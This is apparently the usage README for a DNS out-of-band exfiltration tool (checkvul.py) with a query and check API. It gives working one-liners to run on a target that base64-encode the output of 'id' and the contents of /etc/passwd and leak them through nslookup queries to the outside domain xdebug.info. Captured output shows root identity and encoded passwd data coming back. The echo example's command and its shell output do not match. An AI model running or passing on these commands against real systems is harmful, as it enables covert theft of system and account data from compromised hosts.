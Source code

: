 #Usage

###start###  
nohup python checkvul.py 2>&1 &

###query###

Execute The Following Command On Your Target:

id |base64 -w60|cat -n|awk '{print $2"."$1".xdebug.info"};'|xargs -n 1 nslookup

##############################################################################################
root@vultr:~# id |base64 -w60|cat -n|awk '{print $2"."$1".xdebug.info"};'|xargs -n 1 nslookup
Server:		108.61.10.10
Address:	108.61.10.10#53

Non-authoritative answer:
Name:	dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK.1.xdebug.info
Address: 127.0.0.1
##############################################################################################  

Access following API:
http://127.0.0.1/_query

Response:

"""  
ECHO

uid=0(root) gid=0(root) groups=0(root)

****************************************************************************************************
DNS
dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK.1.xdebug.info. 45.32.103.184 2018-11-19 16:36:28
1.xdebug.info. 45.32.103.184 2018-11-19 16:36:28
xdebug.info. 45.32.103.184 2018-11-19 16:36:28
****************************************************************************************************

""""

###check###

nslookup check.7b0f687d4d6d.xdebug.info

######################################################  
root@vultr:~# nslookup check.7b0f687d4d6d.xdebug.info
Server:		108.61.10.10
Address:	108.61.10.10#53

Non-authoritative answer:
Name:	check.7b0f687d4d6d.xdebug.info
######################################################  

Request API:
http://localhost/_check?type=dns&uuid=7b0f687d4d6d

Response JSON:
{"result": 1, "uuid": "7b0f687d4d6d", "log": "check.7b0f687d4d6d.xdebug.info.\t45.32.103.184\t2018-11-19 16:22:41"}

###echo###

cat /etc/passwd |base64 -w60|cat -n|awk '{print $2"."$1".8b0f687d4d6d.xdebug.info"};'|xargs -n 1 nslookup

##############################################################################################  
root@vultr:~# id |base64 -w60|cat -n|awk '{print $2"."$1".9b0f687d4d6d.xdebug.info"};'|xargs -n 1 nslookup
Server:		108.61.10.10
Address:	108.61.10.10#53

Non-authoritative answer:
Name:	dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK.1.9b0f687d4d6d.xdebug.info
Address: 127.0.0.1

##############################################################################################  

Request API:
http://localhost/_echo?type=dns&uuid=9b0f687d4d6d

Response JSON:
{"result": "uid=0(root) gid=0(root) groups=0(root)\n", "uuid": "9b0f687d4d6d", "log": "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6.1.8b0f687d4d6d.xdebug.info.\t45.32.103.184\t2018-11-19 16:27:31"}
